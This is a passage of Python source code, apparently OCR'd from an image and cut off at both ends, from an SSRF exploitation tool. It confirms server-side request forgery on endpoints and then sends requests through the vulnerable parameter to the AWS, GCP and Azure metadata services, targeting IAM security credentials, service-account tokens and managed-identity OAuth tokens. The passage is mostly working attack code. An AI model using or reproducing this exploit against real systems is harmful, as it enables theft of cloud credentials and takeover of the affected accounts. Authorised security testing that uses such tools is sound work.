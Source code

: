```python
                # Check if external request was made
                if response.status_code == 200 and ('origin' in response.text.lower() or 'ip' in response.text.lower()):
                    vulnerable_endpoints.append({
                        'endpoint': endpoint,
                        'confirmed_ssrf': True,
                        'test_response': response.text[:200]
                    })
                    print(f"    ✓ SSRF confirmed on {endpoint['url']}")
                    
            except Exception as e:
                print(f"    ✗ Error testing {endpoint['url']}: {e}")
        
        return vulnerable_endpoints
    
    def exploit_cloud_metadata(self, ssrf_endpoint):
        """Exploit cloud metadata services"""
        print(f"\n[+] Exploiting cloud metadata via {ssrf_endpoint['endpoint']['url']}")
        
        # Cloud metadata endpoints
        metadata_endpoints = {
            'aws_ec2': [
                'http://169.254.169.254/latest/meta-data/',
                'http://169.254.169.254/latest/meta-data/instance-id',
                'http://169.254.169.254/latest/meta-data/iam/security-credentials/',
                'http://169.254.169.254/latest/user-data'
            ],
            'gcp': [
                'http://metadata.google.internal/computeMetadata/v1/',
                'http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token',
                'http://metadata.google.internal/computeMetadata/v1/project/project-id'
            ],
            'azure': [
                'http://169.254.169.254/metadata/instance?api-version=2021-02-01',
                'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/'
            ]
        }
        
        results = {}
        
        for cloud_provider, endpoints in metadata_endpoints.items():
            print(f"  Testing {cloud_provider.upper()} metadata service...")
            results[cloud_provider] = []
            
            for metadata_url in endpoints:
                try:
                    payload = {ssrf_endpoint['endpoint']['param']: metadata_url}
                    
                    # Add trigger parameter if needed
                    if 'trigger_param' in ssrf_endpoint['endpoint']:
                        payload[ssrf_endpoint['endpoint']['trigger_param']] = True
                    
                    response = self.session.request(
                        ssrf_endpoint['endpoint']['method'],
                        f"{self.base_url}{ssrf_endpoint['endpoint']['url']}",
                        json=payload,
                        timeout=15
                    )
                    
                    if response.status_code == 200 and len(response.text) > 10:
                        results[cloud_provider].append({
```